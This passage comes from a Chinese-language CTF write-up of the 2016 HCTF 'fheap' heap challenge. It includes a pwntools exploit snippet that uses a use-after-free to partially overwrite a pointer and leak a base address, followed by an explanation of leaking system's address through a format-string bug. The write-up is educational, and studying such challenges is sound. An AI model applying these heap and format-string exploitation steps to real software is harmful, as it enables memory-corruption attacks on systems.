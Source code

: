 ```python
  	payload = "aaaaaaaa".ljust(0x18,'b')+'\x2d'
    # recover low bits,the reason why i choose \x2d is that the system flow decide by
    create_str(0x20,payload)
    delete_str(1) # 泄露内存地址
    #step 3 leak base addr
    sh.recvuntil('b'*0x10)
    data = sh.recvuntil('\n')[:-1]
    if len(data)>8:
        data=data[:8]    
    data = u64(data.ljust(0x8,'\x00'))# leaked puts address use it to calc base addr
    base_addr = data - 0xd2d
```

找到了plt表的基地址，下面就是对于格式化字符串的利用

### 格式化字符串

我们想要知道system的地址，在没有libc的环境下，利用格式化字符串泄露内存地址从而得到system的加载地址

格式化字符串的洞，一开始不知道怎么发现的。格式化字符串的洞必须满足以下条件：

1. 用户的输入必须能打印 
2. 用户输入的字符串在printf函数栈的上方（先压栈）

就这两个条件我们很快可以分析出漏洞的点就在create & delete 函数 
我们首先create字符串调用delete 此时freeshort地址变成了printf，可以控制打印 
但是我们的参数放在哪里呢？ 
我们又发现当输入yes时yes字符串在堆栈的位置正好是printf的上方

下面找一下printf的偏移 
![这里写图片描述](2016-hctf-fheap/img-3.png)

64位的格式化字符串 [参见这篇博客](http://blog.csdn.net/qq_31481187/article/details/72510875) 

![img](2016-hctf-fheap/img-4.png)
